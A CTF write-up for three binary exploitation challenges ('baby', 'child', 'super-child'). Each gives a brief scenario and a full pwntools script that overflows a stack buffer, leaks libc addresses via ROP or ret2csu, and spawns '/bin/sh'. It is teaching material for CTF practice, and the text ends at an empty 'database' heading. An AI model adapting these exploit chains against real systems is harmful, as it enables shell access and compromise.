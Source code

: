 ```yaml
---
title: IGRUS CTF writeups
tags: ctf writeup baby igrus super-child child
---
```

## 0. baby
### 0-0. Scenario
Since the ``flag`` function has both ``system`` and '/bin/sh' string, theres not much to do here.

1. find pop rdi gadget
2. call system('/bin/sh')

### 0-1. Exploit

```python
from pwn import *

#gadgets
rdi = 0x4007c3

#addresses
systemplt = 0x400570
binsh = 0x4007e8

# dummy data
payload = 'a'*40

# system
payload += p64(rdi) + p64(binsh) + p64(systemplt)

r = process('./baby')

r.recvuntil('you > ')

r.sendline(payload)

r.interactive()
```

## 1. child

### 1-0. Scenario
This problem uses custom lib. So, we have to get the offset from the provided file, not from the default libc. That's pretty much it.

Since this is 32-bit binary which includes gadgets, we can easily leak the libc address.

1. leak libc addr with puts
2. return to main = get another input
3. system('/bin/sh')

### 1-1. Exploit
exploit code:
```python
from pwn import *
context.log_level='debug'

lib = ELF('libc.so.6')
binary = ELF('child')

#addresses from lib
readoff = lib.symbols['read']
systemoff = lib.symbols['system']

#binsh string location
binshoff = list(lib.search('/bin/sh'))[0]

#addresses from bin
main = binary.symbols['main']
readgot = binary.got['read']
putsplt = binary.plt['puts']

#gadgets
pop3ret = 0x8048589
popret = 0x8048589

#start process
p = process('./child', env={'LD_PRELOAD':lib.path})

#read input prompt
p.recvuntil('you > \x00')

#dummy data
payload = 'a'*36

#puts(*read@got)
payload += p32(putsplt) + p32(popret) + p32(readgot) + p32(main)

#send first payload
p.sendline(payload)

#read output and calculate libc address
readaddr = u32(p.recvn(4))
base = readaddr - readoff

#read input prompt
p.recvuntil('you > \x00')

#dummy data
payload = 'a'*36

#system(*'/bin/sh')
payload += p32(base+systemoff) + p32(0) + p32(base+binshoff)

#gdb.attach(proc.pidof(p)[0], 'b *main')

#send second payload
p.sendline(payload)

p.interactive()
```

## 2. super-child

### 2-0. Scenario
This problem is similar to previous ``child``, just that it is 64 bits and got trickier.
The binary doesn't have ``puts`` nor gadgets, so we're stuck with ``csu`` and ``write``. Other than that, it's pretty much the same thing

1. Leak libc address with write
2. return to main = get another input
3. system('/bin/sh')

### 2-1. Exploit
exploit code:
```python
from pwn import *
#context.log_level='debug'

lib = ELF('libc.so.6')
bin = ELF('super-child')

#addresses from lib
writeoff = lib.symbols['write']
systemoff = lib.symbols['system']

#binsh string location
binshoff = list(lib.search('/bin/sh'))[0]

#addresses from bin
writeplt = bin.plt['write']
writegot = bin.got['write']
main = bin.symbols['main']

#gadgets
poprdi = 0x400723
csupop = 0x40071a
csumov = 0x400700

#first payload dummy value
payload = 'a'*(0x20+8)

#write(1,*write@got,6)
payload += p64(csupop) + p64(0) + p64(1) + p64(writegot) + p64(6) + p64(writegot) + p64(1) + p64(csumov)

#return to main
payload += p64(0)*7 + p64(main)

#start process
p = process(bin.path,env={'LD_PRELOAD':lib.path})

#read input prompt
p.recvuntil('you > \x00')

#send payload
p.sendline(payload)

#read output and calculate libc base address
base = u64(p.recvn(6)+'\x00\x00') - writeoff

#gdb.attach(proc.pidof(p)[0], 'b *main')

print hex(base)

#second payload dummy value
payload = 'a'*(0x20+8)

#system('/bin/sh')
payload += p64(poprdi) + p64(base + binshoff) + p64(base + systemoff)

#read input prompt
p.recvuntil('you > \x00')

#send payload
p.sendline(payload)

p.interactive()
```

## 3. database
